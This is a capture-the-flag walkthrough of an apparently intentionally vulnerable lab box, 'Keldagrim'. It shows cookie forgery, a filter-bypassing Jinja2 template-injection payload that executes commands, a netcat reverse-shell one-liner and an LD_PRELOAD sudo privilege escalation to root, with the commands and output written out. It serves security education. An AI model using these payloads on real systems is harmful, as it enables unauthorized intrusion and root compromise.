 ## Keldagrim

# Enumeration
```
# Nmap 7.91 scan initiated Thu May  6 13:36:46 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80 10.10.203.185
Nmap scan report for 10.10.203.185
Host is up, received timestamp-reply ttl 61 (0.14s latency).
Scanned at 2021-05-06 13:36:47 PDT for 12s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1ElGI0HLd8mhCV1HC0Mdnml4FZPMr17SrcABm6GMKV0g5e4wQNtSPAvXhGj696aoKgVX1jDbe4DzDGr3jDkLjXegnpqQyVQnSYV7Cz9pON4b9cplT/OPK/7cd96E7tKFsZ3F+eOM51Vm6KeYUbZG0DnHZIB7kmPAH+ongqQmpG8Of/wXNgR4ONc6dD/lTYWCgWeCEYT0ERlErkqM05mO9DwV+7Lr+AZhAZ8afx+NSpV17gBZzjmqT4my3zMAf3Ne0VY/exvb807YKiHmPPaieE8KxjfRjcsHGsMuYesDm3m0cUvGSdp2xfu8J5dOSNJc5cVse6RBTPmPu4giRtm+v
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBETP4uMiwXXjEW/UWp1IE/XvhxASBN753PiuZmLz6QiSZE3y5sIHpMtXA3Sss4bZh4DR3hoP3OhXgJmjCJaSS4=
|   256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJVgfo2NhVXDfelQtZw0p6JWJLPk2/1NF3KRImlYIIul
80/tcp open  http    syn-ack ttl 61 Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags:
|   /:
|     session:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 13:36:59 2021 -- 1 IP address (1 host up) scanned in 12.68 seconds
```

Just ssh and a web server ports are open so lets check out the page.

# Web Server Port 80
A gold buying website for mmo's. We start by looking at the source code and pages before we try enumerating directories and subdomains with gobuster. We find a couple interesting things. Firstly a admin page that is grayed out from being selected but a link to is viewable in the source code at /admin. Going to it seems to simply put us on the home page, but maybe we have a session cookie we can manipulate to change this. We find a session cookie with the following value.
```
echo 'Z3Vlc3Q=' | base64 -d
guest
```
so lets convert admin to base64 and see if we see anything new. Sure enough admin is no longer grayed out and going to /admin gives us a page that says
```
Current user - $2,165
```

Seems pretty odd but its a static value in the source code, however we have a new cookie now called sales with the following value.
```
echo 'JDIsMTY1' | base64 -d
$2,165
```

Interesting lets test for XSS,
```
<script>alert('XSS')</script> -> base64-> PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

using this produce the following in the source code,
```
&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;
```

Looks like a filter on at least the following characters
```
<
>
'
```

I went ahead and tried to bypass this filter a few ways, but before I get too carried away here I want to look at the other thing I initially noticed.

there is a directory /static/images that has images stored for the page however when trying to load the directory itself something interesting occurs.
```

Error - Page Not Found

There has been an error when trying to view staticimages! Please return back to the site

```
The same occurs when trying to go to /static as well. So it seems like its the directories are restricted but it then tries to load it as a page as opposed to a directory and the / is being bypassed. So before we worry about the filter lets see if we have SSTI.

```
/${7*7}

There has been an error when trying to view ${7*7}! Please return back to the site

/{{7*7}}

There has been an error when trying to view 49! Please return back to the site

/{{7*'7'}}

There has been an error when trying to view 7777777! Please return back to the site
```

So we definitely have SSTI on likely a jinja2 or twig framework, but with some filters so lets switch over to burpsuite and use the following payload to try and bypass the filters
```
GET {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

There has been an error when trying to view uid=1000(jed) gid=1000(jed) groups=1000(jed)
```

Awesome, we have bypassed the filter and got the id command to execute so let's just take a normal reverse shell such as rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f, and then hex-encoded it with /x delimiters and try and replace the 'id' command with it. Sure enough we get a hit on our listener and we have a foothold

# Initial Foothold/Privilege Escalation
We get a shell as the jed user in their home directory and can find the user.txt flag here. Next we find the following,
```
jed@keldagrim:~$ sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

ps doesn't have any entries on GTFObins however we can still run it as root with no password and in conjuction with LD_PRELOAD we can try the following privilege escalation method from 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd

we first verify that gcc is on the system and then make the following shell.c file
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

then execute the following
```
jed@keldagrim:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
  setgid(0);
  ^~~~~~
  setenv
shell.c:7:2: warning: implicit declaration of function ‘setuid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
  setuid(0);
  ^~~~~~
  setenv
jed@keldagrim:~$ sudo LD_PRELOAD=/home/jed/shell.so ps
# cd /root
# ls -la
total 28
drwx------  4 root root 4096 Dec  4 22:22 .
drwxr-xr-x 24 root root 4096 Dec  4 19:38 ..
lrwxrwxrwx  1 root root    9 Dec  4 22:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Dec  4 22:09 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Dec  4 22:15 root.txt
drwx------  2 root root 4096 Nov  9 00:57 .ssh
```

We successfully have root access and claim our root.txt flag! Thinking back we could have explored using the cookie to execute SSTI instead of XSS and likely would have been able to use a similar payload to extract information and establish a foothold.
